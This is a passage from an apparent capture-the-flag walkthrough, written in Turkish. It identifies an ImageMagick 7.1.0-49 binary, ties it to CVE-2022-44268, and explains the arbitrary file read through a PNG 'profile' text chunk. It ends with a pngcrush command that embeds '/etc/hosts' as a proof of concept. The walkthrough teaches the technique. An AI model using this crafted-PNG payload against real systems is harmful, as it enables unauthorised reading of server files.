 #### Identify CVE

**Repository**'de bir **magick** kopyası var ve bu bir çalıştırılabilir dosya (**executable**).

```
oxdf@hacky$ file magick 
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

Ayrıca şu komutu da çalıştıracak:

```
oxdf@hacky$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Bu versiyonu arattığınızda CVE-2022-44268 için bir sürü referans bulabilirsiniz:

![Pasted image 20250107030044.png](/img/user/Pasted%20image%2020250107030044.png)

Sorun “profile” text stringinin ImageMagick tarafından nasıl ele alındığı ile ilgilidir. [Metabaseq'teki bu gönderi](https://www.metabaseq.com/imagemagick-zero-days/), ayrıntılarla gerçekten güzel bir iş çıkarıyor ve bu üst düzey açıklamayı sunuyor:

Kötü niyetli bir aktör, bir **PNG** dosyası oluşturabilir veya mevcut bir dosyayı kullanarak içine metinsel bir **chunk type** (örneğin, **tEXt**) ekleyebilir. Bu türlerin bir **keyword** (anahtar kelime) ve bir metin dizesi bulunur. Eğer **keyword**, tırnak işareti olmadan "profile" dizesiyse, **ImageMagick** bu metin dizisini bir dosya adı olarak yorumlar ve içeriği bir **raw profile** olarak yüklemeye çalışır. Belirtilen dosya adı "-" (tek bir tire) olduğunda, **ImageMagick** içeriği standart girdiden (**standard input**) okumaya çalışır ve bu durum potansiyel olarak sürecin sonsuza kadar beklemesine neden olabilir.

**ImageMagick**'te **profile**, bir görüntüde renklerin nasıl temsil edileceğini ve işleneceğini tanımlayan bir dizi renk yönetimi ayarını ifade eder.  
Renk yönetimi önemlidir, çünkü farklı cihazlar (örneğin, kameralar, monitörler ve yazıcılar) renkleri farklı şekilde yorumlayabilir ve yeniden üretebilir.  
**Profiles**, çeşitli cihazlar arasında tutarlı ve doğru renk temsili sağlamak için kullanılır.

### POC Exploit

#### Manual

Piyasada birçok POC komut dosyası var, ancak ben bunu manuel olarak yapmayı tercih ediyorum [Bu](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) Github sayfasında bunu yapmak için adımlar var. Genel bir PNG ile başlayacağım ve profil stringini eklemek için pngcrush kullanacağım:

```
oxdf@hacky$ pngcrush -text a "profile" "/etc/hosts" poc.png
  Recompressing IDAT chunks in poc.png to pngout.png
   Total length of data found in critical chunks            =     21089
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     20070
CPU time decode 0.004922, encode 0.052924, other 0.001132, total 0.059650 sec
```

---